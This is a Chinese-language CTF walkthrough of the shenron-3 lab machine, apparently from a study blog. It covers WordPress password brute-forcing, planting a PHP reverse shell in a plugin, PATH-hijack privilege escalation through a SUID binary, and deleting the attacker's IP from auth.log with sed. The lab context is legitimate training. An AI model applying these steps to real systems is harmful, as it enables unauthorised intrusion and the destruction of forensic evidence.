

# 前言

靶机：`shenron-3`

攻击：`kali`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.1.1/24`即可


# 信息收集

## 使用nmap扫描端口


## 网站探测

访问网站，发现可能是`wordpress`，而且经过前面`shenron-2`靶机后，显示与前面相似，可能需要域名解析


查看页面源代码确定为目录下网站，且有脚本语言`php`。

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具进行目录扫描

```shell
gobuster dir -u http://192.168.1.57 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404
```


访问`http://192.168.1.57/wp-admin`发现，进行跳转，需要进行域名绑定


编辑`/etc/hosts`文件，添加一条映射即可


使用`whateweb`进行指纹识别


结合目前信息来看，确定为`wordpress`，那么使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://192.168.1.57
```


尝试枚举用户



# 漏洞寻找

结合字典，尝试枚举出用户名及密码，发现用户名`admin`以及密码`iloverockyou`


也可以找`wordpress`的版本漏洞，使用`searchsploit`进行搜索

```shell
searchsploit wordpress core 4.6
```


分析所需要的

- 第一个远程代码执行，这个可以
- 第二个用户名枚举，不过这里以得知一个用户
- 第三个未授权密码重置，也是可以
- 第四个需要认证，那不行
- 第五个可能是查看未授权的一些文件吧
- 第六个拒绝服务

第一个远程代码执行脚本，需要开启`phpmail`，但是这里并没有开启，因为在测试忘记密码时的一个邮件发送，并没有找到，所以不行

第二个暂且不枚举，因为已知一个admin

第三个也是需要开启`mail`，不行

ok，那就算了吧，再试都曲中人散了。

# 漏洞利用

直接使用上面枚举出的用户名和密码登录，OK，完全可以登录

那么查看插件`plugins`，是否可以更改，毕竟这里的插件的PHP语言

发现一个`hello dolly`插件，把这个插件启用，该插件就是在页面右上角打招呼的，直接修改代码，插入`kali`自带的反弹php，在`/usr/share/webshells/php/php-reverse-shell.php`，然后在`kali`开启监听


使用`dpkg -l | grep python`查看有无安装`python`，确定为`python3`


获取交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

使用`find`寻找SUID和`capabilities`

```shell
find / -perm -u=s -type f 2>/dev/null
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```


查看用户情况


查看网络状态，以及系统内核版本


查看定时任务


# 提权

收集一圈，未发现可用，那就把收集到的密码进行切换用户测试，最终测试成功，与爆出的密码一致


查看家目录


好嘛，这直接发现一个SUID权限的可执行文件`network`，执行发现，这很像是`netstat`，并且测试发现，用户的参数并无用处，说明是设置好的，调用这个命令

把这个文件通过`python`下载到`kali`分析

```shell
靶机执行
python3 -m http.server 9999

kali执行
wget http://192.168.1.57/network
```

在`kali`上使用`strings`等命令分析


那么更改环境变量，创建一个同名的文件，最好在`/tmp`目录

```shell
cd /tmp
echo /bin/bash > netstat
export PATH=/tmp:$PATH
chmod +x netstat
```

执行上面命令后，即可发现成功


# 清除痕迹

各种日志清理，一般采用`sed`抹去与自己ip相关的即可，这里省事直接置空

```shell
sed -i "/192.168.1.16/d" auth.log
```


清除命令历史记录


网站上，把之前的脚本文件内容复原即可

# 总结

1. `wordpress`的一些使用，如`xmlrpc.php`可能寻找用户名枚举等
2. 对于枚举的用户进行密码爆破`wpscan`
3. 在网站插件插入`php`的反弹`shell`，这需要可以在网站进行修改文件的权限
4. 一码多用的情况
5. 临时环境变量的提权


